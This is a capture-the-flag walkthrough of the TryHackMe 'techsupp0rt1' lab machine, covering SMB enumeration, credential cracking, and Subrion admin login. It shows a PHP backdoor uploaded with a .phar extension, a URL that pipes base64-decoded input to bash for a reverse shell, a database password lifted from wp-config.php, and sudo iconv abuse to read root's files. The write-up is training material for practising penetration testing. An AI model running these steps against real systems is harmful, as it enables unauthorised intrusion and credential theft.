



# TryHackMe techsupp0rt1 writeup

* Link https://tryhackme.com/room/techsupp0rt1
* IP 10.10.38.152

## Enumeration

### Port scan - nmap
Starting wih a port scan of the machine

```
$ nmap -sC -sV -oA nmap/allports 10.10.38.152
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-29 08:25 EDT
Nmap scan report for 10.10.38.152
Host is up (0.034s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-05-29T12:25:26
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-05-29T17:55:27+05:30
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.74 seconds

```

### SMB enumeration - smbclient
byt using smbclient to see if the there is access to any shares on the machine  - pressing "enter when asked for password"

```
$ smbclient -L 10.10.38.152 -U ''  
Password for [WORKGROUP\]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        websvr          Disk      
        IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            
                                    
```
which reveals a websrv folder. 
Futher enumeration of the folder revealt  new file again logging in with empty password

```
smbclient \\\\10.10.38.152\\websvr -U '' 
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat May 29 03:17:38 2021
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021

                8460484 blocks of size 1024. 5684456 blocks available
```

Then  getting the file

```
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)
```

Content of the file
```
$ cat enter.txt                            
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

#### Cracking the password
From he hint in the file it seems like a good way to crack the password woul be o user cyberchef https://gchq.github.io/CyberChef/



revealing the password of "*Scam2021*"


### Web enumeration port 80 - feroxbuster

Enumerating port 80 
```
$ feroxbuster -u http://10.10.38.152/subrion -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt 
```
reveals a test folder and a wordpress site. From the enter.txt file found on SMB-share we will also run he feroxbuster for this folder. This requries some fine tuning to limit he resultset a bit

```
$ feroxbuster -u http://10.10.38.152/subrion -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -n -C 301,302,404,403 -x txt,bak,php,html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.38.152/subrion
 🚀  Threads               │ 50
 📖  Wordlist              │ /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 💢  Status Code Filters   │ [301, 302, 404, 403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [txt, bak, php, html]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      674l     5644w    35147c http://10.10.38.152/subrion/license.txt
200      GET        8l       16w      142c http://10.10.38.152/subrion/robots.txt
200      GET      107l      258w     6203c http://10.10.38.152/subrion/panel.txt
200      GET      107l      258w     6203c http://10.10.38.152/subrion/panel.bak
200      GET      107l      258w     6203c http://10.10.38.152/subrion/panel.php
200      GET      107l      258w     6203c http://10.10.38.152/subrion/panel.html
200      GET      913l     7748w    49250c http://10.10.38.152/subrion/changelog.txt
200      GET       17l       17w      247c http://10.10.38.152/subrion/.gitignore
[####################] - 4m    215020/215020  0s      found:8       errors:0      
[####################] - 4m    215020/215020  857/s   http://10.10.38.152/subrion
```
In the robots.txt we can see entries as weel

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

But it does give a "panel" and navigating to *http://10.10.38.152/subrion/panel/* show a login page


supplying the credentials found (admin:Scam2021) and crack a successfull login is made.
after logging in we can see a upload functionality 


## Inital Access



When uploading a php file it can  be accesss in the upload folder but as seen php is inaccessable so tryig to bypass this by uploading the backdoor php file with different extension like php5,phar shows phar files is accepted  *http://10.10.38.152/subrion/uploads/backdoor.phar?cmd=whoami*



So we can now get a reverse shell via our backdoor, in this instance a bash reverseshell is used by base64 encoding it and pipeing i over to bash calling this url
```
http://10.10.38.152/subrion/uploads/backdoor.phar?cmd=echo%20%27 BASE64Shell  %27%20|%20base64%20-d%20|%20bash
```


## Privilege escalation

After som searching, a username and password was found in /var/www/html/wordpress/wp-config.php

```
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
```
even though the database does reveal other usefull information the password can be used to swich to the user "scamsite" with the db password

```
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
```

checking sudo privilege for that user shows we can run iconv with sudo and no password

```
scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```

checking gtfobins there is an escalation path https://gtfobins.github.io/gtfobins/iconv/#sudo

```
LFILE=file_to_read
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

This can be used to read the flag
```
scamsite@TechSupport:~$ LFILE=/root/root.txt
scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```


